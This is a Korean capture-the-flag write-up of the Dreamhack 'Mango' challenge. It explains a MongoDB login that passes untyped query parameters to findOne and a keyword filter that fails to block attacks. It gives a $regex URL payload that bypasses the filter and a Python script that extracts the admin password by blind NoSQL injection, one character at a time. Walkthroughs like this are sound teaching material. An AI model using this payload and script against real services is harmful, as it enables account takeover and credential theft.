 ## 📍Mango

```
이 문제는 데이터베이스에 저장된 플래그를 획득하는 문제입니다. 
플래그는 admin 계정의 비밀번호 입니다.
플래그의 형식은 DH{…} 입니다.
{‘uid’: ‘admin’, ‘upw’: ‘DH{32alphanumeric}’}
```

![](Attachments/{59F000E6-5B91-4D49-A479-B2B6D7D99E59}.png)

아래 주소를 URL에 붙여넣기하면 uid를 반환한다.

![](Attachments/{57BE0A16-BB46-42E5-95B7-ABB94716DE42}.png)

문제 지문에 나와있는 대로 admin 계정으로 로그인하려고 하면 막힌다.

![](Attachments/{4AD563C8-18A8-4CB7-A825-C7C3C234851F}.png)


#### 소스코드

`admin, dh, admi` 세 가지를 필터링하는 함수가 있다.
![](Attachments/{3C451C0B-EF1F-442B-94E6-12F733DB7BA0}.png)

login 페이지는 이용자가 쿼리로 전달한 `uid`와 `upw`를 `filter` 함수로 필터링한다.
필터링에 걸리지 않으면 DB를 검색하고, 찾아낸 이용자의 정보를 반환한다.
![](Attachments/{CA9A9A0A-5A2B-4C19-AA72-744CDFFCF8A8}.png)


#### 취약점

login 페이지에서 MongoDB에 쿼리를 전달하는 부분을 보면 쿼리 변수의 타입을 검사하지 않는다.
```sql
const {uid, upw} = req.query;

db.collection('user').findOne({
	'uid': uid,
	'upw': upw,
})
```
이로 인해 NoSQL Injection 공격이 발생할 수 있다.


#### 해결

/login에서는 로그인에 성공했을 때 이용자의 `uid`만 출력하기 때문에 Blind NoSQL Injection으로 admin의 `upw`를 획득해야 한다.

filter 함수가 특정 문자열을 필터링하고 있지만, 정규표현식을 이용하면 우회할 수 있다.

`http://host3.dreamhack.games:15768/login?uid[$regex]=ad.in&upw=D.{*`

![](Attachments/{6B39B63E-371A-4A54-A77B-FF313DE2C89E}.png)

`upw`는 정규표현식을 통해 한 글자씩 알아내야 하므로 여러 번 쿼리를 전달할 필요가 있다.
자동화 스크립트를 작성한다.

```python
import requests, string

HOST = 'http://host3.dreamhack.games:15768'
ALPHANUMERIC = string.digits + string.ascii_letters
SUCCESS = 'admin'

flag = ''

for i in range(32):
    for ch in ALPHANUMERIC:
        response = requests.get(f'{HOST}/login?uid[$regex]=ad.in&upw[$regex]=D.{{{flag}{ch}')
        if response.text == SUCCESS:
            flag += ch
            break
    print(f'FLAG: DH{{{flag}}}')
```

결과!

![](Attachments/{BA763E55-6627-4715-A8F6-2EAC91CE2E16}.png)
